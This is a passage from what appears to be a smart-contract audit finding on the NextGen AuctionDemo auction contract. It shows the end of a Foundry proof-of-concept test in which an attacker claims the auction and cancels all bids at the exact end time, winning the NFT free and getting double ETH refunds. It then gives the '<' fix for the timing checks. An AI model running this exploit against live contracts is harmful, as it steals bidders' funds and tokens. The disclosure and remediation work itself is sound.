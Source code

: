 ```solidity
107:         vm.warp(10000); //Warping to right at the auctionEndTime of Azuki auction
108:
109:         bytes memory selector2 = abi.encodeWithSignature("claimAuction(uint256)", 10000000000);
110:         vm.prank(attacker); //Attacker claimsAuction
111:         (bool success3,) = address(auctionContract).call(selector2);
112:
113:         //At the same time (i.e. right at auctionEndTime), the attacker also calls cancelAllBids()
114:         bytes memory selector3 = abi.encodeWithSignature("cancelAllBids(uint256)", 10000000000);
115:         vm.prank(attacker);
116:         (bool success4,) = address(auctionContract).call(selector3);
117:
118:         assertEq(success3, true); //Proves claimAuction() call succeeded
119:         assertEq(success4, true); //Proves cancelAllBids() call succeeded as well
120:
121:         uint256 attackerNFTBalance = gencore.balanceOf(attacker);
122:         uint256 attackerETHBalance = address(attacker).balance;
123:
124:         assertEq(attackerNFTBalance, 1); //Attacker should have received the auctioned NFT
125:         assertEq(attackerETHBalance, 6800000000000000000); //Attacker's ETH balance should be double (i.e. 1.8 ETH) his previous active bid of 0.9 ETH plus 5 ETH that is refunded from his highest bid. This proves that not only did the attacker win the auctioned token for free but also doubled the amount of his previous bids.
126:     }
127: }
```

## Tools Used
Manual Review

## Recommended Mitigation Steps
The solution is quite straightforward. We can fix either of the two causes mentioned in the beginning to solve the issue:

**Solution for 1:**
Update [cancelBid()](https://github.com/code-423n4/2023-10-nextgen/blob/8b518196629faa37eae39736837b24926fd3c07c/smart-contracts/AuctionDemo.sol#L124) and [cancelAllBids()](https://github.com/code-423n4/2023-10-nextgen/blob/8b518196629faa37eae39736837b24926fd3c07c/smart-contracts/AuctionDemo.sol#L134) functions timing related check to "<" instead of "<=" on 1st line:
```solidity
File: AuctionDemo.sol
124:     function cancelBid(uint256 _tokenid, uint256 index) public {
125:         require(block.timestamp < minter.getAuctionEndTime(_tokenid), "Auction ended");


126:         require(auctionInfoData[_tokenid][index].bidder == msg.sender && auctionInfoData[_tokenid][index].status == true);
127:         auctionInfoData[_tokenid][index].status = false;
128:         (bool success, ) = payable(auctionInfoData[_tokenid][index].bidder).call{value: auctionInfoData[_tokenid][index].bid}("");
129:         emit CancelBid(msg.sender, _tokenid, index, success, auctionInfoData[_tokenid][index].bid);
130:     }
131:
132:     // cancel All Bids
133:
134:     function cancelAllBids(uint256 _tokenid) public {
135:         require(block.timestamp < minter.getAuctionEndTime(_tokenid), "Auction ended");
136:         for (uint256 i=0; i<auctionInfoData[_tokenid].length; i++) {
```